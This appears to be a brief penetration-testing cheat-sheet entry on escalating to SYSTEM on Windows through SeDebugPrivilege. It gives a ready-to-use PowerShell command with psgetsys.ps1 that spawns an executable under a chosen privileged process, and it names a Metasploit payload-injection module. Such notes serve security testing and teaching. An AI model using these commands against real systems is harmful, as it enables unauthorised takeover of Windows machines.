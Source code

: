 
# Privilege Escalation

## Process Elevation (via SeDebugPrivilege)
If you run `whoami /priv` and you see `SeDebugPrivilege` set to `Enabled`, you can assume you already have SYSTEM.
One way of doing it, is using [decoder](https://twitter.com/decoder\_it)'s `psgetsys.ps1` [script](https://github.com/decoder-it/psgetsystem) once you have a good idea on a PID to inject:  `. .\psgetsys.ps1; [MyProcess]::CreateProcessFromParent(7864, 'C:\temp\burmat443.exe');`
You can also gain a MSF session and use the module `windows/manage/payload_inject` with a PID of your choice.